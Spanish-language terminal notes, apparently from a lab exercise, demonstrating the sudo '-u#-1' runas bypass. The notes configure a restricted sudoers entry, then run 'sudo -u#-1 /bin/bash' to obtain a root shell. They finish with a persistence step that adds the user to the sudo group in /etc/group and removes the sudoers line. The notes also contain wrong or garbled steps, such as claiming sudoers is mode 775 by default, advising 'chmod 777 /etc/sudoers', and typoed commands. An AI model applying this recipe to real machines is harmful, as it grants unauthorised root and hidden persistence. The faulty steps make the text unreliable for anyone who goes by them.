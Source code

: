 #0.- Por defecto /etc/sudoers tiene permisos chmod 775. 

Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers

#1.- Editamos el fichero /etc/sudoers con 

$usermod -aG sudo antonio
$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#4.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#6.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#7.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#8.- ya somos root!

exit

#9.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

sudo vim /etc/group

sudo : x:27:antonio

forzamos la escritura en group al salir con :wq!

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL


